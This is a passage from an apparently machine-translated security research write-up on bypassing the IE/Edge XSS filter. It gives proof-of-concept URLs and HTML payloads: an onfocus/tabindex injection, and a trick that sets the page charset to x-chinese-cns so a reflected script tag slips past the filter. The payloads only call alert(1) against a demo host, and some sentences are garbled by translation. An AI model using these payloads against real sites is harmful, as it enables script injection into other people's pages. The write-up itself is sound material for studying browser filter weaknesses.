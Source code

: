 PoCs:

[https://vulnerabledoma.in/bypass/text?q=%3Cx~%0Aonfocus=alert%281%29%20id=a%20tabindex=0%3E#a](https://vulnerabledoma.in/bypass/text?q%3D%253Cx~%250Aonfocus%3Dalert%25281%2529%2520id%3Da%2520tabindex%3D0%253E%23a)

```html
<x~
onfocus=alert(1) id=a tabindex=0>
```

### Using encoding behavior when navigating

Conditions for attacking:

1. Has reflective XSS via GET

supplement:

During navigation, IE/Edge encodes the query string with the character code of the page before navigation and sends the request. At this time, the XSS filter was (presumably) checking the encoded string itself, not the request being sent, which could cause a mismatch between the encoded string and the bytes actually sent. Bypass occurs when

A specific example is shown with the character code x-chinese-cns used in the PoC below. In x-chinese-cns `旡`the character is mapped to 0xA13E. `<script/旡`At this time, a query including this character string is sent from a page with x-chinese-cns set as the character code of the page, attached to a parameter with reflective XSS. Then, the sent request `旡`is not the UTF-8 representation, but the byte itself encoded with x-chinese-cns `</script/0xA1>`(0x3E ), and the tag is written `>`in the page . `<script>`Normally, `<script>`if you write a tag, the XSS filter should work, but it doesn't work here. It is speculated that the reason for this is that the filter mistakenly `<script/旡`saw the character string and `<sc{r}ipt.*?>`did not match the blocking condition.

Reference URL:

- [https://masatokinugawa.l0.cm/2017/05/xss14.html](https://masatokinugawa.l0.cm/2017/05/xss14.html)

PoCs:

- [https://l0.cm/bypass/ie_x-chinese-cns_text.html](https://l0.cm/bypass/ie_x-chinese-cns_text.html)

```html
<meta charset=utf-8>
<script>
  document.charset="x-chinese-cns";
  location="https://vulnerabledoma.in/bypass/text?q=<script/旡alert(1)<\/script/旡"
</script>
```

(For XSS only with attribute values) [https://l0.cm/bypass/ie_x-chinese-cns_attribute.html](https://l0.cm/bypass/ie_x-chinese-cns_attribute.html)

```html
<meta charset=utf-8>
<script>
  document.charset="x-chinese-cns";
  location="https://vulnerabledoma.in/bypass/attribute?q=乜onmouseover=alert(1)//"
</script>
```
